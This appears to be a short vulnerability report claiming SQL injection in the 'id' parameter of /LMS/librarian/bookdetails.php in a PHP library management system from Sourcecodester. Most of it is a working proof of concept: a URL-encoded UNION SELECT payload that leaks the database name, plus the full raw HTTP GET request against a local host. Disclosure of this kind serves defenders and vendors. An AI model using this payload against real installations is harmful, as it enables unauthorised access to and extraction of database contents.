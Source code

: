 # Library Management System v1.0 by kingbhob02 has SQL injection

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /LMS/librarian/bookdetails.php

Vulnerability location: /LMS/librarian/bookdetails.php?id=, id

[+] Payload: /LMS/librarian/bookdetails.php?id=-191%27%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ // Leak place ---> id

```sql
GET /LMS/librarian/bookdetails.php?id=-191%27%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=7v8p4p3goshl3b4fkncu3bh9ui
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/180440757-b1553903-464c-4d25-871b-8e5d3bde09f9.png)
